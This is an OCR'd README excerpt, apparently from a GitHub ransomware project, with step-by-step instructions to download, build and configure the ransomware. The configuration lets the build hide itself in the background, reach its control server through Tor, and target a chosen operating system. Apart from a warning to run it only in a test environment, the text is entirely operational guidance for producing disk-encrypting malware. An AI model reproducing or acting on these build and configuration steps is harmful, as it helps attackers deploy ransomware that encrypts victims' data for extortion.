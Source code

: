 > DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! I'm not resposible if you acidentally encrypt all of your disks!

First of all download the project:

```bash
go get -v github.com/dnerzker/ransomware
cd $GOPATH/src/github.com/dnerzker/ransomware
```

> If you have Docker skip to the next section.

You need Go at least 1.8 with the `$GOPATH/bin` in your $PATH and `$GOROOT` pointing to your Go installation folder

Build the project require a lot of steps, like the RSA key generation, build three binaries, embed manifest files, so, let's leave `make` do your job:

```bash
make deps
make
```
You can build the server for windows with `make -e GOOS=windows`.

#### Docker

```bash
./build-docker.sh make
```

#### Config Parameters

You can change some of the configs during compilation. Instead of run only `make`, you can use the following variables:

```bash
HIDDEN='-H windowsgui' # optional. If present the malware will run in background

USE_TOR=true # optional. If present the malware will download the Tor proxy and use it to contact the server

SERVER_HOST=mydomain.com # the domain used to connect to your server. localhost, 0.0.0.0, 127.0.0.1 works too if you run the server on the same machine as the malware

SERVER_PORT=8080 # the server port, if using a domain you can set this to 80

GOOS=linux # the target os to compile the server. Eg: darwin, linux, windows
```

Example:

`make -e USE_TOR=true SERVER_HOST=mydomain.com SERVER_PORT=80 GOOS=darwin`

The `SERVER_` variables above only apply to the malware. The server has a flag `--port` that you can use to change the port that it will listen on.

> DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! I'm not resposible if you acidentally encrypt all of your disks!
